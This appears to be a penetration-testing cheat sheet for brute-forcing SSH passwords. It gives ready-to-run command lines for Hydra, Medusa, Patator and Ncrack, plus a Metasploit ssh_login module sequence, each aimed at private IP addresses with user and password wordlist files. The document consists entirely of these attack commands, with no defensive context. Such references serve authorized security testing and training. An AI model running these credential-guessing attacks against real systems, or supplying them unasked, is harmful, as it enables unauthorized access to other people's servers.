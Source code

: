# Bruteforce

### Hydra Brute Force SSH Password

```
hydra -L User.txt -P Passwords.txt 192.168.1.10 ssh
```



### Medusa Brute Force SSH Password

```
medusa -h 192.168.0.8 -U user.txt -P password.txt -M ssh
```



### Patator Brute Force SSH Password

```
patator ssh_login host=192.168.0.8 user=FILE0 0=user.txt password=FILE1 1=password.txt
```



### Brute Force SSH Password using Ncrack

```
ncrack -U user.txt -P password.txt 192.168.0.8:22
```



### Brute Force SSH Password using Metasploit

```
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.0.8
set user_file user.txt
set pass_file password.txt
run
```
